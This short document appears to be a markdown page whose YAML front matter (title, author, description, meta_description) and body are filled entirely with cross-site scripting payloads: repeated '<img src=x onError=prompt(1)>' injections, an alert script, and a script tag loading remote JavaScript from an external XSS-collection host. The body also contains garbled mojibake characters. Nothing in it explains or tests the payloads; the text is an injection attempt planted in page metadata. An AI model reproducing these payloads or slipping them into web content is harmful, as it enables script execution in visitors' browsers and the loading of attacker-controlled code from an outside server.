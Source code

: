```yaml
---
title: <img src=x onError=prompt(1)>
author: <img src=x onError=prompt(1)>
description: <img src=x onError=prompt(1)>
meta_description: <img src=x onError=prompt(1)>
twitter_image: /img/dnt.svg
date: 2023-01-28T04:03:00.035Z
---
```

<img src=x onError=prompt(1)>>҉ðŸ˜‡Ÿ˜<҉💋😇"><img src=x onError=prompt(1)>"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>
